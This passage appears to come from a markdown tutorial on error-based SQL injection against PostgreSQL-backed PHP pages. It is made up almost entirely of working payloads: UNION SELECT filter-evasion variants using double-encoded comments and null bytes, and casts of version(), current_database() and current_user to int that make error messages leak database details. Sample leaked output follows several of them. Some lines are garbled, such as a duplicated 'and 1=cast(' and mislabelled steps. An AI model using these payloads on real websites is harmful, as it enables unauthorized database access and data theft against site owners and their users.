 http://domain.com/index.php?id=1 %252f%252a*/union%252f%252a /select%252f%252a*/ null,null,null,null  
http://domain.com/index.php?id=1 AnD null UNiON SeLeCt null,null,null,null;%00 
http://domain.com/index.php?id=1 AnD null UNiON SeLeCt null,null,null,null+--+-  
http://domain.com/index.php?id=1 And False Union Select null,null,null,null+--+-  
```  

In this case the 2nd column was vulnerable, so let's retrieve information from this column.  
Both payloads below will print the version of Database.

```http://domain.com/index.php?id=1 union select null,cast(version() as int),null,null```   
```http://domain.com/index.php?id=1 union select null,cast(version() as numeric),null,null```  

Look at the error message, we will retrieve the version of the database:  
>Query failed: ERROR: The syntax you enter contains an invalid number: "PostgreSQL 9.2.2, compiled by Visaul C++ build 1600, 64bit", in D:\AppServer\www\...  

Try forcing server to reflect your input:  
```http://domain.com/index.php?id=1 Union Select null,cast(CHR(107) || CHR(108) || CHR(101) || CHR(105) || CHR(116) || CHR(111) || CHR(110) || CHR(48) || CHR(120) || CHR(48) || CHR(48) as int),null,null```  
On the error message, you will see your input reflected (this case **kleiton0x00**)

Retrieve the database name:  
```http://domain.com/index.php?id=1 union select null,cast(current_database() as int),null,null```  
Inside the error message, the user will be displayed: 
>Query failed: ERROR: invalid input syntax for integer: **"munivent_database"** in /home/REDACTED/public_html/index.php on line...  

Search for table:  
```http://domain.com/index.php?id=1 union select null,cast(current_user as int),null,null```  
Inside the error message, the user will be displayed:  
>Query failed: ERROR: invalid input syntax for integer: **"admin_user"** in /home/REDACTED/public_html/index.php on line...  

Retrieving multiple information:  
```http://domain.com/index.php?id=1 and union select null,cast(current_database() ||":"|| current_user ||":"|| version() as int),null,null```  
Inside the error message, the information will be displayed:  
>Query failed: ERROR: invalid input syntax for integer: **"munivent_database : admin_user : munivent_database : PostgreSQL 9.2.24 on x86_64-redhat-linux-gnu, compiled by gcc (GCC) 4.8.5 20150623 (Red Hat 4.8.5-39), 64-bit"** in /home/REDACTED/public_html/index.php on line...  

## Retrieving information from database (Boolean string)

In the second method, we don't need to enumerate the number of columns. We directly begin retrieving information, however it is harder to guess the table names and columns.

```http://domain.com/index.php?1 and 1=cast(version() as int)```  
Inside the error message, the version will be displayed:  
>Query failed: ERROR: invalid input syntax for integer: **"PostgreSQL 9.2.24 on x86_64-redhat-linux-gnu, compiled by gcc (GCC) 4.8.5 20150623 (Red Hat 4.8.5-39), 64-bit"** in /home/REDACTED/public_html/index.php on line...

Retrieve the database name:  
```http://domain.com/index.php?id=1 and 1=cast(current_database() as int)```  
Inside the error message, the user will be displayed: 
>Query failed: ERROR: invalid input syntax for integer: **"munivent_database"** in /home/REDACTED/public_html/index.php on line...

Search for table:  
```http://domain.com/index.php?id=1 and 1=cast(current_user as int)```  
Inside the error message, the user will be displayed:  
>Query failed: ERROR: invalid input syntax for integer: **"admin_user"** in /home/REDACTED/public_html/index.php on line...  

Try forcing server to reflect your input:  
```http://domain.com/index.php?id=1 and 1=cast(and 1=cast( CHR(107) || CHR(108) || CHR(101) || CHR(105) || CHR(116) || CHR(111) || CHR(110) || CHR(48) || CHR(120) || CHR(48) || CHR(48) as int)```  
Inside the error message, the input will be reflected:  
```